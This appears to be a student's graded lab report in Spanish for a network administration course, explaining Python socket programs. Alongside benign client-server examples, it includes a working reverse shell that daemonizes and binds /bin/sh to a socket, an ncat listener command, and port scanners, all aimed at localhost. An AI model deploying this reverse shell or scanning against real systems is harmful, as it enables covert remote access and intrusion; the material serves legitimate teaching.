

# <font color="#7F000E" size=5>3era Práctica Calificada</font>

<br>
<div style="text-align: right">
<font color="#7F000E" size=3>Curso: Administración de Redes</font><br>
<font color="#7F000E" size=3>Semestre: 2024-II</font><br>
<font color="#7F000E" size=3>Ciencias de la Computación - UNI</font><br>
</div>

<br>

<div style="display: flex; justify-content: space-between;">
    <div>
        <strong>Apellidos y Nombres:</strong> <span style="border-bottom: 1.5px dotted black;">Pacheco Taboada André Joaquín</span>
    </div>
    <div>
        <strong>Código:</strong> <span style="border-bottom: 1.5px dotted black;">20222189G</span>
    </div>
</div>

## Programando Sockets

### Instalando librerías
Con
```
pip3 install python-socketio
pip3 install aiohttp
```


Una vez instaladas los módulos vamos a revisar el archivo `web_socket_server.py`. Agregaré comentarios para explicar cada parte del código:
```python
from aiohttp import web # Importa la librería web de aiohttp, para crear una aplicación web
import socketio # Importa la librería socketio, para crear un servidor socketio asíncrono

socket_io = socketio.AsyncServer() # Crea un servidor socketio asíncrono
app = web.Application() # Crea una aplicación web
socket_io.attach(app) # Adjunta el servidor socketio a la aplicación web

async def index(request):
    return web.Response(text='Hello world from socketio',content_type='text/html') # Define una ruta para la aplicación web

@socket_io.on('message') # Define un manejador para el evento 'message'
def print_message(socket_id,data): # Imprime el socket id y los datos recibidos
    print("Socket ID: " , socket_id)
    print("Data: " , data)

app.router.add_get('/', index) # Agrega una ruta para la aplicación web

if __name__ == '__main__':
    web.run_app(app) # Inicia la aplicación web
```

En lo que investigaba las funcionalidades de `socketio`, encontré que es una librería que permite crear un servidor socketio asíncrono.
Un Socket es como un canal de comunicación entre dos programas, que permite enviar y recibir mensajes.


Ahora revisemos el archivo `web_socket_client.py`:
```python
import socketio # Importa la librería socketio

sio = socketio.Client() # Crea un cliente socketio

# Cuando se establece la conexión pasa por este método
@sio.event # Define un manejador para el evento 'connect'
def connect():
    print('connection established') # Imprime cuando se establece la conexión

# Cuando se desconecta del servidor pasa por este método
@sio.event # Define un manejador para el evento 'disconnect' 
def disconnect():
    print('disconnected from server') # Imprime cuando se desconecta del servidor

sio.connect('http://localhost:8080') # Se conecta al servidor en localhost:8080
sio.emit('message', {'data': 'my_data'}) # Emite un evento 'message' con datos
sio.wait() # Espera a que se procesen los eventos
```

### Explicación de la Interacción Cliente-Servidor

1. El servidor utiliza `aiohttp` y define dos métodos principales:
   - `index()`: Devuelve un mensaje de respuesta cuando se accede a la ruta raíz "/"
   - `print_message()`: Maneja los eventos de tipo "message", imprimiendo el ID del socket y los datos recibidos

2. El cliente utiliza `socketio.Client()` y define dos métodos:
   - `connect()`: Se ejecuta cuando se establece la conexión
   - `disconnect()`: Se ejecuta cuando se desconecta del servidor

3. Para probar la comunicación:
   - Primero ejecuta el servidor: `python3 web_socket_server.py`
   
   - Luego en otra terminal, ejecuta el cliente: `python3 web_socket_client.py`
   
   - El cliente se conectará al servidor en el puerto 8080
   - El cliente emitirá un evento "message" con datos
   - El servidor recibirá y procesará el mensaje
   


### Socket Data: Cliente básico con el módulo socket

Código del script:
```python
#!/usr/bin/python

import socket

print('creating socket ...')
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  # Crea un socket TCP/IP
print('socket created')
print("connection with remote host")

target_host = "www.google.com"  # Dirección IP del servidor
target_port = 80 # Puerto del servidor

s.connect((target_host,target_port)) # Conecta al servidor
print('connection ok')

request = "GET / HTTP/1.1\r\nHost:%s\r\n\r\n" % target_host # Construye una solicitud HTTP GET
s.send(request.encode()) # Envía la solicitud al servidor

data=s.recv(4096) # Recibe datos del servidor (4096 bytes)
print("Data",str(bytes(data))) # Imprime los datos recibidos
print("Length",len(data)) # Imprime la longitud de los datos recibidos

print('closing the socket')
s.close() # Cierra la conexión con el servidor
```
Qué es:
- `socket.AF_INET`: Usado para direcciones IPv4
- `socket.SOCK_STREAM`: Usado para TCP (protocolo de transmisión confiable)


Métodos para usar con el socket creado:
- Conectarse a un servidor (sock.connect())
- Enviar datos (sock.send())
- Recibir datos (sock.recv())
- Cerrar la conexión (sock.close())

**Ejecución**:


### Implementando un servidor HTTP en Python

Vemos la implementación del servidor HTTP en el archivo `http_server.py`.
```python
import socket

mySocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Crea un socket TCP/IP
mySocket.bind(('localhost', 8080)) # Asigna el socket al puerto 8080

mySocket.listen(5) # Escucha conexiones entrantes con un máximo de 5 conexiones en cola

# Mientras el servidor esté corriendo
while True:
    print('Waiting for connections')
    (recvSocket, address) = mySocket.accept() # Acepta una conexión entrante
    print('HTTP request received:')
    print(recvSocket.recv(1024)) # Recibe datos del cliente (1024 bytes)
    recvSocket.send(bytes("HTTP/1.1 200 OK\r\n\r\n <html><body><h1>Hello World!</h1></body></html> \r\n",'utf-8')) # Envía una respuesta al cliente (HTML)
    recvSocket.close() # Cierra la conexión con el cliente
```

Ahora para probar el servidor HTTP, usaremos el archivo `testing_http_server.py`.

Este script se encarga de enviar una solicitud HTTP GET al servidor y recibir la respuesta.
```python
#!/usr/bin/python
import socket
webhost = 'localhost' # Dirección IP del servidor
webport = 8080 # Puerto del servidor
print("Contacting %s on port %d ..." % (webhost, webport))
webclient = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
webclient.connect((webhost, webport)) # Conecta al servidor
webclient.send(bytes("GET / HTTP/1.1\r\nHost: localhost\r\n\r\n".encode('utf-8'))) # Envía una solicitud HTTP GET
reply = webclient.recv(4096) # Recibe la respuesta del servidor (4096 bytes)
print("Response from %s:" % webhost)
print(reply.decode()) # Imprime la respuesta del servidor en formato de texto
```

**Ejecución**:


### Shell Inverso (Reverse Shell)
Un shell inverso es una técnica de seguridad que permite a un atacante establecer una conexión con un sistema remoto y obtener un shell (terminal) en ese sistema.

El propósito es crear un proceso "demonio" (daemon), que tiene estas características:
- Se ejecuta en segundo plano
- No está conectado a ninguna terminal
- No puede ser terminado fácilmente

Esto significa que si un atacante logra establecer una conexión con el sistema remoto, puede mantener una conexión persistente y ejecutar comandos en el sistema sin la intervención del usuario.

En el código `reverse_shell.py` se encuentra la implementación:
```python
#!/usr/bin/python

#ncat -l -v -p 45679

import socket # Para comunicación en red
import subprocess # Para ejecutar comandos del sistema
import os # Para interactuar con el sistema operativo

socket_handler = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Crea un socket TCP/IP

# Intenta crear un fork del proceso (fork es una técnica para crear un nuevo proceso hijo)
try:
    if os.fork() > 0: # Si el fork es exitoso y estamos en el proceso padre (> 0), termina el proceso padre
        os._exit(0)
# Si hay un error, intenta hacer fork nuevamente
except OSError as error:
    print('Error in fork process: %d (%s)' % (error.errno, error.strerror))
    pid = os.fork() # Crea un nuevo proceso hijo
    if pid > 0:
        print('Fork Not Valid!')
        
socket_handler.connect(("127.0.0.1", 45679)) # Conecta al servidor en localhost:45679

# Redirige los descriptores de archivo estándar (0: stdin, 1: stdout, 2: stderr) al socket
os.dup2(socket_handler.fileno(),0)
os.dup2(socket_handler.fileno(),1)
os.dup2(socket_handler.fileno(),2)

shell_remote = subprocess.call(["/bin/sh", "-i"]) # Ejecuta un shell remoto
list_files = subprocess.call(["/bin/ls", "-i"]) # Lista los archivos en el directorio

```
#### Ejecución

1. En una terminal, inicio el listener:
```bash
ncat -l -v -p 45679
```


Observación: también tuve que instalar `ncat` en mi Arch WSL2 para poder ejecutar el listener. (`sudo pacman -S nmap`)

2. En otra terminal:
```bash
python3 reverse_shell.py
```
Luego de ejecutar el script, se establece una conexión con el servidor y se ejecuta un shell remoto. Ahora puedo ejecutar comandos en la shell remota.


Como vemos, en el shell remoto está activo el proceso del `reverse_shell.py` que se está ejecutando en segundo plano:


### Resolución de dominios IPS, direcciones y administración de excepciones

#### Recopilación de información con sockets

Veamos el script `socket_methods.py` que nos permite obtener la dirección IP y el puerto de un dominio.

```python
#!/usr/bin/python

import socket

try:
    print("gethostname:",socket.gethostname()) # Obtiene el nombre del host
    print("gethostbyname",socket.gethostbyname('www.google.com')) # Obtiene la dirección IP del dominio
    print("gethostbyname_ex",socket.gethostbyname_ex('www.google.com')) # Obtiene información detallada sobre la dirección IP del dominio
    print("gethostbyaddr",socket.gethostbyaddr('8.8.8.8')) # Obtiene información sobre la dirección IP
    print("getfqdn",socket.getfqdn('www.google.com')) # Obtiene el nombre de dominio completo
    print("getaddrinfo",socket.getaddrinfo("www.google.com",None,0,socket.SOCK_STREAM)) # Obtiene información de red sobre el dominio

except socket.error as error:
   print (str(error))
   print ("Connection error")
```

```bash
python3 socket_methods.py
```

**Salida**:


```bash
gethostname: AsusWin11
gethostbyname 142.250.78.4
gethostbyname_ex ('www.google.com', [], ['142.250.78.4'])
gethostbyaddr ('dns.google', [], ['8.8.8.8'])
getfqdn bog02s14-in-f4.1e100.net
getaddrinfo [(<AddressFamily.AF_INET: 2>, <SocketKind.SOCK_STREAM: 1>, 6, '', ('142.250.78.4', 0)), (<AddressFamily.AF_INET6: 10>, <SocketKind.SOCK_STREAM: 1>, 6, '', ('2800:3f0:4005:408::2004', 0, 0, 0))]
```

De los resultados obtenidos, podemos ver que la dirección IP de `www.google.com` es `142.250.78.4`; y la dirección IP de `dns.google` es `8.8.8.8`. También podemos ver que el nombre de dominio completo de `www.google.com` es `bog02s14-in-f4.1e100.net`. Además, se puede ver que el socket tiene dos direcciones IP asociadas, una IPv4 y una IPv6, con sus respectivos puertos.


#### Reverse Lookup
Reverse lookup es el proceso de obtener el nombre de dominio de una dirección IP.

El script `socket_reverse_lookup.py` nos permite obtener el nombre de dominio de una dirección IP, usando el método `gethostbyaddr()` que vimos anteriormente:

```python
#!/usr/bin/env python

import socket

try :
	result = socket.gethostbyaddr("8.8.8.8") # Obtiene el nombre de dominio de la dirección IP
	print("El nombre del host es:",result[0]) # Imprime el nombre de dominio
	print("Direccion Ip :")
	for item in result[2]:
		print(" "+item) # Imprime las direcciones IP
except socket.error as e:
	print("Error al resolver la dirección IP:",e)
```

**Ejecución**:

```bash
python3 socket_reverse_lookup.py
```

**Salida**:


### Administrar excepciones de socket

El script `manage_socket_errors.py` nos permite administrar excepciones de socket:

```python
#!/usr/bin/env python

import socket,sys

host = "domain/ip_address"
port = 80

# Crea un socket TCP/IP
try:
    mysocket = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    print(mysocket)
    mysocket.settimeout(5) # Establece un tiempo de espera de 5 segundos para el timeout (timeout es el tiempo que espera a que se establezca la conexión)
# Si ocurre un error al crear el socket, imprime el error y termina el programa
except socket.error as e:
	print("socket create error: %s" %e)
	sys.exit(1)
	
# Intenta conectar al servidor
try:
    mysocket.connect((host,port))
    print(mysocket)
# Si ocurre un timeout, imprime el error y termina el programa
except socket.timeout as e :
	print("Timeout %s" %e)
	sys.exit(1)
# Si ocurre un error de conexión, imprime el error y termina el programa
except socket.gaierror as e:
	print("connection error to the server:%s" %e)
	sys.exit(1)
# Si ocurre un error de conexión, imprime el error y termina el programa
except socket.error as e:
	print("Connection error: %s" %e)
	sys.exit(1)
```

Los métodos que se manejan en el script son:
- `socket.socket()`: Crea un socket TCP/IP
- `socket.settimeout()`: Establece un tiempo de espera para el timeout
- `socket.connect()`: Conecta al servidor

Y las excepciones que se manejan son:
- `socket.error`: Error al crear el socket
- `socket.timeout`: Timeout al establecer la conexión
- `socket.gaierror`: Error al resolver la dirección IP

Lo que hace el script es intentar crear un socket, establecer un timeout, conectar al servidor y manejar las excepciones que puedan ocurrir.
Al dejar el valor como "domain/ip_address", el script fallará con un error de tipo socket.gaierror porque no puede resolver ese nombre de dominio inválido. Este es precisamente uno de los errores que el script está diseñado para manejar y mostrar de forma amigable.

**Ejecución**:

```bash
python3 manage_socket_errors.py
```


Efectivamente, después de 5 segundos, el script termina con un error de tipo socket.gaierror.

### Escaneo de Puertos con Sockets

#### Escaneo básico

El script `check_ports_socket.py` nos permite escanear los puertos de un host.
```python
#!/usr/bin/python

import socket
import sys

def checkPortsSocket(ip,portlist):
    try:
        # Intenta escanear los puertos
        for port in portlist:
            sock= socket.socket(socket.AF_INET,socket.SOCK_STREAM) # Crea un socket TCP/IP
            sock.settimeout(5) # Establece un tiempo de espera de 5 segundos para el timeout
            result = sock.connect_ex((ip,port)) # Intenta conectar al puerto y devuelve 0 si la conexión es exitosa
            if result == 0:
                print ("Port {}: \t Open".format(port)) # Imprime que el puerto está abierto
            else:
                print ("Port {}: \t Closed".format(port)) # Imprime que el puerto está cerrado
            sock.close()
    except socket.error as error:
        print (str(error))
        print ("Connection error")
        sys.exit()

checkPortsSocket('localhost',[21,22,80,8080,443]) # Escanea los puertos 21, 22, 80, 8080 y 443 del host localhost
```

**Ejecución**:

```bash
python3 check_ports_socket.py
```

**Salida**:


En mi caso todos esos puertos están cerrados. Esto se explica porque uso Arch WSL2 y por defecto no tengo ningún servicio corriendo en esos puertos. Para tener puertos abiertos necesitaría instalar y configurar servicios como SSH (puerto 22), HTTP (puerto 80), HTTPS (puerto 443), etc.

*¿Qué sucede si ejecutamos la función con una dirección IP o nombre de dominio que no existe?*

Si ejecutamos la función con una dirección IP o nombre de dominio que no existe, el script lanzará una excepción `socket.gaierror` y terminará.

*¿Qué es `sock.settimeout()`?*

Un método que establece un tiempo de espera para el socket. Si el socket no establece una conexión en el tiempo especificado, se lanza una excepción `timeout`.

##### Socket port scanner

El script `socket_port_scanner.py` nos permite escanear los puertos de un host usando el método `socket.connect_ex()`.
```bash
python3 socket_port_scanner.py
```


#### Escaneo avanzado

El script `socket_advanced_port_scanner.py` nos permite escanear los puertos de un host usando el método `socket.connect_ex()`.
```bash
python3 socket_advanced_port_scanner.py -H localhost -P 80,443,8080
```


Con este script podemos escanear los puertos de un host y ver si están abiertos o cerrados de manera más rápida y eficiente.


### Implementación de un cliente TCP simple y un servidor TCP

#### Implementando elservidor TCP

1. Inicia el servidor:
```bash
python3 tcp/tcp_server.py
```


2. En otra terminal, el cliente:
```bash
python3 tcp/tcp_client.py
```
Escribiendo en el cliente:


Recibiendo en el servidor:


Observación: El script no acepta codificación UTF-8.

#### Implementación de un cliente UDP simple y un servidor UDP

La aplicación escuchará todas las conexiones y mensajes entrantes en el puerto 5000, imprimiendo el mensaje intercambiado entre el cliente y el servidor.


#### Implementando el servidor UDP
Revisemos el script `udp/udp_server.py`:

```python
#!/usr/bin/env python

import socket,sys

SERVER_IP = "127.0.0.1"
SERVER_PORT = 6789

# Crea un socket UDP
socket_server=socket.socket(socket.AF_INET,socket.SOCK_DGRAM) # DGRAM es el protocolo UDP
socket_server.bind((SERVER_IP,SERVER_PORT))

print("[*] Servidor UDP escuchando en %s:%d" % (SERVER_IP,SERVER_PORT)) # [*] Servidor UDP escuchando en 127.0.0.1:6789

while True:
	data,address = socket_server.recvfrom(4096) # Recibe datos del socket (4096 bytes)

    # Envía una respuesta al cliente
	socket_server.sendto("Soy el servidor aceptando conexiones...".encode(),address)
	data = data.strip()

    # Imprime el mensaje recibido desde el cliente
	print("Mensaje %s recibido desde %s: " % (data, address))

    # Intenta enviar una respuesta al cliente
	try:
		response = "Hola %s" % sys.platform # Respuesta del servidor
	except Exception as e:
		response = "%s" % sys.exc_info()[0]
	
	print("Respuesta",response)
	
    # Envía la respuesta al cliente
	socket_server.sendto(bytes(response,encoding='utf8'),address)
		
socket_server.close()
```

Nuevos métodos relevantes:
- `socket.bind()`: Enlaza el socket a una dirección y puerto
- `socket.recvfrom()`: Recibe datos del socket
- `socket.sendto()`: Envía datos al socket

#### Implementando el cliente UDP

Revisemos el script `udp/udp_client.py`:
```python
#!/usr/bin/env python

import socket

SERVER_IP = "127.0.0.1"
SERVER_PORT = 6789

address = (SERVER_IP ,SERVER_PORT)

socket_client=socket.socket(socket.AF_INET,socket.SOCK_DGRAM) # Crea un socket UDP

while True:
	message = input("Ingresa un mensaje > ")
	if message=="quitar":
		break

    # Envía un mensaje al servidor
	socket_client.sendto(bytes(message,encoding='utf8'),address)
	response_server,addr = socket_client.recvfrom(4096) # Recibe una respuesta del servidor
	print("Respuesta desde el servidor => %s" % response_server)
		
socket_client.close()
```


#### Ejecución

1. Inicia el servidor:
```bash
python3 udp/udp_server.py
```

2. En otra terminal, el cliente:
```bash
python3 udp/udp_client.py
```

Escribiendo en el cliente:


Recibiendo en el servidor y respondiendo:


